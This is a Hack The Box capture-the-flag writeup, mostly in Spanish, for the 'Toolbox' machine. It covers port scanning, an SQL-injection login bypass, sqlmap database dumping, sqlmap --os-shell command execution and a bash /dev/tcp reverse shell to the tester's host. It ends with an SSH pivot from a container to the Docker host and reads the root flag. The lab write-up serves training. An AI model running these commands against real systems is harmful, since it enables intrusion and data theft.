

Hack The Box: Toolbox Writeup
Welcome to my detailed writeup of the easy difficulty machine “Toolbox” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
1rustscan -a 10.129.96.171 --ulimit 5000 -g
210.129.96.171 -> [21,22,135,139,443,445,5985,49668,49667,49669,49664,49666,49665] 1nmap -p21,22,135,139,443,445,5985,49668,49667,49669,49664,49666,49665 -sCV 10.129.96.171 -oN allPorts
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 22:10 CEST
3Nmap scan report for 10.129.96.171
4Host is up (0.037s latency).
5
6PORT STATE SERVICE VERSION
721/tcp open ftp FileZilla ftpd
8| ftp-syst:
9|_ SYST: UNIX emulated by FileZilla
10| ftp-anon: Anonymous FTP login allowed (FTP code 230)
11|_-r-xr-xr-x 1 ftp ftp 242520560 Feb 18 2020 docker-toolbox.exe
1222/tcp open ssh OpenSSH for_Windows_7.7 (protocol 2.0)
13| ssh-hostkey:
14| 2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
15| 256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
16|_ 256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
17135/tcp open msrpc Microsoft Windows RPC
18139/tcp open netbios-ssn Microsoft Windows netbios-ssn
19443/tcp open ssl/http Apache httpd 2.4.38 ((Debian))
20|_ssl-date: TLS randomness does not represent time
21| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
22| Not valid before: 2020-02-18T17:45:56
23|_Not valid after: 2021-02-17T17:45:56
24|_http-server-header: Apache/2.4.38 (Debian)
25|_http-title: MegaLogistics
26| tls-alpn:
27|_ http/1.1
28445/tcp open microsoft-ds?
295985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
30|_http-server-header: Microsoft-HTTPAPI/2.0
31|_http-title: Not Found
3249664/tcp open msrpc Microsoft Windows RPC
3349665/tcp open msrpc Microsoft Windows RPC
3449666/tcp open msrpc Microsoft Windows RPC
3549667/tcp open msrpc Microsoft Windows RPC
3649668/tcp open msrpc Microsoft Windows RPC
3749669/tcp open msrpc Microsoft Windows RPC
38Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
39
40Host script results:
41|_clock-skew: -1h59m59s
42| smb2-security-mode:
43| 3:1:1:
44|_ Message signing enabled but not required
45| smb2-time:
46| date: 2024-08-24T18:11:36
47|_ start_date: N/A
48
49Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
50Nmap done: 1 IP address (1 host up) scanned in 64.21 secondsUDP Enumeration
1sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.96.171 -oN allPorts.UDP
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 22:03 CEST
3Nmap scan report for 10.129.96.171
4Host is up (0.035s latency).
5Not shown: 1499 open|filtered udp ports (no-response)
6PORT STATE SERVICE
726994/udp closed unknown
8
9Nmap done: 1 IP address (1 host up) scanned in 1.04 secondsFTP Enumeration
Encontramos un instalador de docker.
Este instalador nos da una pista de que quizás existan contenedores por detrás.
Me interesa saber la versión para buscar vulnerabilidades asociadas, para ello podemos calcular el hash MD5.
1md5sum docker-toolbox.exe
2c5312c5b4b4df67a0628c3df8929f1f8 docker-toolbox.exeY podemos buscar este hash en VirusTotal para revelar la versión del instalador.

No encontré nada asociado.
HTTPS Enumeration
Con el escaneo inicial encontramos el dominio megalogistic.com y el subdominio admin.megalogistic.com, agregamos esta información al /etc/hosts
Podemos inspeccionar el certificado TLS.
1openssl s_client -showcerts -connect 10.129.96.171:443Encontramos un correo admin@megalogistic.com
megalogistic.com
1whatweb https://megalogistic.com
2https://megalogistic.com [200 OK] Apache[2.4.38], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.129.96.171], JQuery[3.3.1], Script, Title[MegaLogistics]No nos reporta nada interesante whatweb
El sitio web se ve así, muy estático y sin nada relevante.

admin.megalogistic.com -> SQL Injection
1whatweb https://admin.megalogistic.com/
2https://admin.megalogistic.com/ [200 OK] Apache[2.4.38], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.129.96.171], PHP[7.3.14], PasswordField[password], Title[Administrator Login], X-Powered-By[PHP/7.3.14]Lo único relevante que whatweb nos reporta es que se utiliza PHP por detrás.
El sitio se ve así, un panel de inicio de sesión.

Si ponemos una '

Con una simple inyección SQL podernos saltarnos el panel de autenticación.

Vemos la nota en el panel de administración
- Send credentials to Tony
- Update Printer Drivers
Esto nos podría servir mas adelante.
Encontramos un panel con correos electrónicos, no se si me servirán para mas add

Podemos copiar todo y solo quedarnos con los correos
1cat users.txt | grep @ | sponge users.txt
2┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/toolbox/content]
3└──╼ [★]$ cat users.txt
4builders@megacorp.com
5info@pix.com
6orders@drapes.com
7drake@sounds.com
8track@accord.com
9makers@blocks.com
10evy@royal.com
11delivery@game.com
12info@vroom.comDespués de enumerar un rato el panel (tampoco hay mucho) no encontré nada, así que vamos a probar a abusar de la SQLi a ver si encontramos mas información relevante.
Abusing SQL Injection
Podemos utilizar sqlmap para abusar de esta inyección.
1sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --batch --dbs
2
3....
4available databases [3]:
5[*] information_schema
6[*] pg_catalog
7[*] publicLa base de datos public contiene una tabla users
1sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --batch -D public --tables
2
3.....
4Database: public
5[1 table]
6+-------+
7| users |
8+-------+Vemos un hash MD5 del usuario admin pero no conseguí crackearlo ni con john ni con hashcat
1sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --batch -D public -T users --dump
2
3.....
4+----------------------------------+----------+
5| password | username |
6+----------------------------------+----------+
7| 4a100a85cb5ca3616dcf137918550815 | admin |
8+----------------------------------+----------+Command Execution through SQL Injection -> Foothold
Inocentemente probé con el parámetro --os-shell que intenta ejecutar código en el sistema.
1sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --os-shell --batch
2
3....
4os-shell> whoami
5do you want to retrieve the command standard output? [Y/n/a] Y
6[23:00:52] [INFO] retrieved: 'postgres'
7command standard output: 'postgres'Y vemos que conseguimos ejecución de comandos
Nos mandamos una revshell para trabajar mas cómodamente
1os-shell> bash -c "bash -i >& /dev/tcp/10.10.14.76/443 0>&1"
Detectamos que estamos en un contenedor.
1(remote) postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ip a
2bash: ip: command not found
3(remote) postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ hostname -I
4172.17.0.2Como es una máquina fácil, fui a lo obvio e intente recuperar las credenciales de acceso a la base de datos por si se reutilizan estas credenciales.
1$conn = pg_connect("host=localhost port=5432 dbname=test user=postgres password=password");Pero no tiene pinta…
Por la cara me encontré la flag de usuario
1(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ cat user.txt
2f0183e44378ea... flag.txtContainer Pivoting
Este contenedor no tenía ping instalado
Así que probando si conseguía detectar si algún estaba abierto en la dirección 172.17.0.1 que suele ser la máquina anfitriona..
1(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ ping 172.17.0.1
2bash: ping: command not found1(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ echo "" > /dev/tcp/172.17.0.1/5985
2bash: connect: Connection refused
3bash: /dev/tcp/172.17.0.1/5985: Connection refused
4(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ echo "" > /dev/tcp/172.17.0.1/49664
5bash: connect: Connection refused
6bash: /dev/tcp/172.17.0.1/49664: Connection refused
7(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ echo "" > /dev/tcp/172.17.0.1/22Detecté que el puerto 22 está abierto.
Al buscar Docker Toolbox SSH me encontré este post en StackOverFlow
1(remote) postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
2docker@172.17.0.1's password:
3 ( '>')
4 /) TC (\ Core is distributed with ABSOLUTELY NO WARRANTY.
5 (/-_--_-\) www.tinycorelinux.net
6
7docker@box:~$ id
8uid=1000(docker) gid=50(staff) groups=50(staff),100(docker)
9docker@box:~$ ip a
101: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
11 link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
12 inet 127.0.0.1/8 scope host lo
13 valid_lft forever preferred_lft forever
14 inet6 ::1/128 scope host
15 valid_lft forever preferred_lft forever
162: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
17 link/ether 08:00:27:f2:5e:be brd ff:ff:ff:ff:ff:ff
18 inet 10.0.2.15/24 brd 10.0.2.255 scope global eth0
19 valid_lft forever preferred_lft forever
20 inet6 fe80::a00:27ff:fef2:5ebe/64 scope link
21 valid_lft forever preferred_lft forever
223: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
23 link/ether 08:00:27:2c:6d:87 brd ff:ff:ff:ff:ff:ff
24 inet 192.168.99.100/24 brd 192.168.99.255 scope global eth1
25 valid_lft forever preferred_lft forever
26 inet6 fe80::a00:27ff:fe2c:6d87/64 scope link
27 valid_lft forever preferred_lft forever
284: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
29 link/sit 0.0.0.0 brd 0.0.0.0
305: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
31 link/ether 02:42:45:ec:6e:91 brd ff:ff:ff:ff:ff:ff
32 inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
33 valid_lft forever preferred_lft forever
34 inet6 fe80::42:45ff:feec:6e91/64 scope link
35 valid_lft forever preferred_lft forever
367: veth6cda6c0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default
37 link/ether 6a:bf:73:37:1b:6d brd ff:ff:ff:ff:ff:ff
38 inet6 fe80::68bf:73ff:fe37:1b6d/64 scope link
39 valid_lft forever preferred_lft foreverY ganamos acceso a otro contenedor.
Tenemos permiso para ejecutar cualquier usuario como root
1docker@box:~$ sudo -l
2User docker may run the following commands on this host:
3 (root) NOPASSWD: ALL
4docker@box:~$ sudo su
5root@box:/home/docker#Enumerando el sistema encontramos un directorio c en la raíz del sistema.
1root@box:/# ls -la
2total 244
3drwxr-xr-x 17 root root 440 Aug 24 18:05 .
4drwxr-xr-x 17 root root 440 Aug 24 18:05 ..
5drwxr-xr-x 2 root root 1420 Aug 24 18:03 bin
6drwxr-xr-x 3 root root 60 Aug 24 18:05 c
7drwxrwxr-x 14 root staff 4340 Aug 24 18:03 dev
8drwxr-xr-x 9 root root 1000 Aug 24 18:05 etc
9drwxrwxr-x 4 root staff 80 Aug 24 18:03 home
10-rwxr-xr-x 1 root root 496 Oct 19 2019 init
11drwxr-xr-x 4 root root 800 Aug 24 18:02 lib
12lrwxrwxrwx 1 root root 3 Aug 24 18:02 lib64 -> lib
13lrwxrwxrwx 1 root root 11 Aug 24 18:02 linuxrc -> bin/busybox
14drwxr-xr-x 4 root root 80 Aug 24 18:02 mnt
15drwxrwsr-x 3 root staff 180 Aug 24 18:05 opt
16dr-xr-xr-x 163 root root 0 Aug 24 18:02 proc
17drwxrwxr-x 2 root staff 80 Aug 24 18:03 root
18drwxrwxr-x 6 root staff 140 Aug 24 18:05 run
19drwxr-xr-x 2 root root 1300 Aug 24 18:03 sbin
20-rw-r--r-- 1 root root 241842 Oct 19 2019 squashfs.tgz
21dr-xr-xr-x 13 root root 0 Aug 24 18:03 sys
22lrwxrwxrwx 1 root root 13 Aug 24 18:02 tmp -> /mnt/sda1/tmp
23drwxr-xr-x 7 root root 140 Aug 24 18:03 usr
24drwxrwxr-x 8 root staff 180 Aug 24 18:03 varY esto parece un sistema de ficheros de Windows…
1root@box:/c/Users# ls
2Administrator Default Public desktop.ini
3All Users Default User TonyY como tenemos acceso a todo el sistema de ficheros sin restricciones porque en el contenedor somo root podemos leer la flag de root
1root@box:/c/Users/Administrator/Desktop# cat root.txt
2cc9a0b76ac17f8f...¡Y ya estaría!
Happy Hacking! 🚀
#HackTheBox #Toolbox #Writeup #Cybersecurity #Penetration Testing #CTF #Reverse Shell #Privilege Escalation #RCE #Exploit #Linux #Windows #Container Pivoting #Docker Breakout #Docker #SQLi #SQL Injection #Authentication Bypass #HTTP Enumeration